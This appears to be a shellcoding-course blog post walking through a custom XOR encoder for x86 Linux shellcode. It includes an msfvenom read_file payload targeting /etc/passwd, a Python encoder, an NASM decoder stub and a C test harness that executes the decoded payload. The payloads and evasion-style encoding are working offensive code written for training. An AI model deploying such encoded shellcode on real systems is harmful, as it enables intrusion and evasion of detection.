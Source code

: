 # Assignment 4: Custom Encoder

- Create a custom encoding scheme like the “Insertion Encoder” we showed you 
- PoC with using execve-stack as the shellcode to encode with your schema and execute 



For this assignment, I will be taking an msfpayload and writing a python script to encode it. Then I will wrap the msfvenomm payload in some assmebly that will decode itself in place and execute.

The msfvenom payload I will encode is generated with:

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
```

This results in the following shellcode:
```c
"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"
```

# Encoding: Python

The python script that will do the encoding is below:

```python
#!/bin/python3
import random
import binascii


# msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
payload = b"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"

output = ""
for b in payload:
    # new random byte to xor with
    while True:
        rand_byte = random.randbytes(1)

        # xor real shellcode byte with randomly generated byte
        new_shellcode_byte = b ^ int.from_bytes(rand_byte, 'little')

        # check if new shellcode will contatin 0xff or 0x00    
        if not rand_byte == 0xff and not new_shellcode_byte == 0xff and not rand_byte == 0x00 and not new_shellcode_byte == 0x00:
            break
        print("FOUND 0xFF or 0x00 in rand_byte or new_shellcode_byte, generating new random byte!!")
        
    # print(f"{hex(b)} ^ {hex(int.from_bytes(rand_byte, 'little'))} = {hex(new_shellcode_byte)}")
    output += '\\x' + binascii.hexlify(rand_byte).decode('utf-8')
    output += '\\x' + hex(new_shellcode_byte)[2:].zfill(2)

# append our end stub to the end of our payload. This signifies the exit condition.
output += '\\xff\\xff'


print(f"\n{output}\n")
print(", 0x".join(output.split('\\x'))[2:])
print("\nlength: " + str(len(output.split('\\x')) - 1), " - hex: ", str(hex(len(output.split('\\x')) - 1)))
```

This script accepts the original shellcode in the `payload` variable. It then iterates and generates a random byte to xor with each byte of the original payload.

The new shellcode will be in the form of `<random_byte><old_byte ^ random_byte>`. 

If either of these bytes are a `0x00` or `0xff`, a new random byte is generated and the old shellcode is xor'd with the new random byte. This is to avoid `0x00` in the new payload and `0xff` which will be appended as the exit condition during decoding.

# Decoder: Assembly



```x86asm
; Filename: custom_decode.nasm
; read /etc/passwd


global _start

section .text
_start:
	jmp _shellcode


_decode_stub:
	pop esi 						; ptr to encoded_shellcode
	xor ecx, ecx			
	mul ecx							; ecx, edx, eax all cleared
	xor ebx, ebx					; ebx cleared

_loop:
	mov dl, byte [esi + ecx]		; mov random byte to dl
	mov bl, byte [esi + ecx + 1]	; mov next instruction to be xor'ed
	
	; exit condition
	cmp bl, 0xff 					; is next byte to xor a 0xff 
	jz _execute
	
	xor bl, dl
	mov byte [esi + eax], bl		; move dl to shellcode
	add ecx, 0x2
	inc eax
	jmp _loop


_execute:
	jmp esi


; section .data						; need .data section to be writable
									; OR, compile with 'ld -N' to make .text section not read-only
_shellcode:
	call _decode_stub
	encoded_shellcode: db 0x8b, 0x56, 0x97, 0x56, 0xab, 0x14, 0x77, 0x27, 0x8e, 0x4a, 0x1b, 0x5a, 0x9a, 0x3e, 0x22, 0xfb, 0xc8, 0xbc, 0xef, 0xcb, 0x74, 0x80, 0x91, 0xcb, 0x1c, 0x37, 0x55, 0x9c, 0xce, 0x7f, 0x9c, 0x8f, 0x17, 0x26, 0xb3, 0xc9, 0x90, 0x88, 0x66, 0x65, 0xf2, 0x88, 0x7b, 0x63, 0xcb, 0x48, 0x78, 0xba, 0x40, 0x14, 0x23, 0x05, 0x91, 0x25, 0xa2, 0xed, 0xd7, 0xb5, 0x01, 0x1f, 0xd2, 0xe0, 0xae, 0x3e, 0xef, 0x65, 0x0f, 0x51, 0x37, 0x51, 0x45, 0xe4, 0xe9, 0xaa, 0xcb, 0x58, 0x4a, 0x52, 0x83, 0xcb, 0xf9, 0x69, 0x3b, 0xaf, 0x2b, 0x31, 0x86, 0xcd, 0x28, 0x3e, 0xd1, 0x34, 0xf3, 0x66, 0xed, 0x41, 0x42, 0xdd, 0xb4, 0xa8, 0x59, 0x46, 0x81, 0xb3, 0x77, 0xf8, 0xca, 0x14, 0x76, 0x16, 0x04, 0xfa, 0x96, 0xb9, 0x82, 0xd5, 0xd3, 0x71, 0x7d, 0xc5, 0x7e, 0x55, 0xcc, 0xa4, 0x86, 0xa5, 0x6e, 0xd7, 0x66, 0xee, 0xd4, 0xbd, 0xcc, 0xef, 0x5d, 0xe4, 0x78, 0x96, 0xe7, 0x43, 0xd4, 0x77, 0x71, 0x70, 0xb7, 0x58, 0x9d, 0xab, 0xb6, 0x12, 0x74, 0x05, 0xfe, 0xaa, 0x4a, 0x7c, 0xb5, 0x11, 0x42, 0x33, 0x09, 0xa3, 0xc2, 0x38, 0x3f, 0x1b, 0xf5, 0x6c, 0xd7, 0xb8, 0xbd, 0x46, 0x09, 0xd3, 0x66, 0xc3, 0x5b, 0x1b, 0x08, 0x69, 0x77, 0x26, 0xb4, 0x8d, 0x16, 0xa7, 0xcd, 0xd4, 0x76, 0x8e, 0x1c, 0xd2, 0x75, 0xcb, 0x94, 0x3a, 0x09, 0x97, 0x39, 0x09, 0xff, 0xff

```

Here, the `encoded_shellcode` is the output from the previous python encoder script.

This assembly just reverses the encoding process. First, a pointer to the original shellcode is loaded into the `esi` register using the jmp, call, pop technique.

It then jumps by 2 bytes during each loop and grabs the random_byte in `dl` and the xor'd original byte in `bl`. It then xor's these two values for the actual original byte, and overwrites the encoded shellcode in place.

Once an `0xff` is found, the exit condition has been met, and the code jumps to the position pointed at by `esi`, the decoded shellcode.

# Testing

This can be tested with the following test_decoder.c file:
```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\xeb\x20\x5e\x31\xc9\xf7\xe1\x31\xdb\x8a\x14\x0e\x8a\x5c\x0e\x01\x80\xfb\xff\x74\x0b\x30\xd3\x88\x1c\x06\x83\xc1\x02\x40\xeb\xe9\xff\xe6\xe8\xdb\xff\xff\xff\x8b\x56\x97\x56\xab\x14\x77\x27\x8e\x4a\x1b\x5a\x9a\x3e\x22\xfb\xc8\xbc\xef\xcb\x74\x80\x91\xcb\x1c\x37\x55\x9c\xce\x7f\x9c\x8f\x17\x26\xb3\xc9\x90\x88\x66\x65\xf2\x88\x7b\x63\xcb\x48\x78\xba\x40\x14\x23\x05\x91\x25\xa2\xed\xd7\xb5\x01\x1f\xd2\xe0\xae\x3e\xef\x65\x0f\x51\x37\x51\x45\xe4\xe9\xaa\xcb\x58\x4a\x52\x83\xcb\xf9\x69\x3b\xaf\x2b\x31\x86\xcd\x28\x3e\xd1\x34\xf3\x66\xed\x41\x42\xdd\xb4\xa8\x59\x46\x81\xb3\x77\xf8\xca\x14\x76\x16\x04\xfa\x96\xb9\x82\xd5\xd3\x71\x7d\xc5\x7e\x55\xcc\xa4\x86\xa5\x6e\xd7\x66\xee\xd4\xbd\xcc\xef\x5d\xe4\x78\x96\xe7\x43\xd4\x77\x71\x70\xb7\x58\x9d\xab\xb6\x12\x74\x05\xfe\xaa\x4a\x7c\xb5\x11\x42\x33\x09\xa3\xc2\x38\x3f\x1b\xf5\x6c\xd7\xb8\xbd\x46\x09\xd3\x66\xc3\x5b\x1b\x08\x69\x77\x26\xb4\x8d\x16\xa7\xcd\xd4\x76\x8e\x1c\xd2\x75\xcb\x94\x3a\x09\x97\x39\x09\xff\xff";


int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```


To obtain the `code` here, we compile and link the assembly defined above. However, due to the large data blob of the encoded shellcode, I was receiving errors when trying to execute this test_decoder.c file. Upon further inspection, I noticed my previous function to dump shellcode was removing important bytes from my shellcode. Thus, I rewrote it to (hopefully) be more consistant:

```bash
dump-shellcode () {
    # OLD METHOD
    # objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

    # NEW METHOD
    objdump -d "$1" |grep '[0-9a-f]:' | grep -v file | cut -d':' -f2- | sed 's/^\W*//g' | grep -Po "^([0-9a-f]{2} )+" | tr -d '\n' | sed 's/\W/\\x/g' | sed 's/^/\\x/g' | rev | cut -c3- |rev
}
```

running `dump-shellcode <compiled_linked_assembly_binary>` resulted in the full encoded shellcode and worked flawlessly. 

Once the `test.c` file is in order, it can be compiled and ran using:
```bash
gcc -fno-stack-protector -z execstack -m32 template.c -o test_decoder
./test_decoder
``` 



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
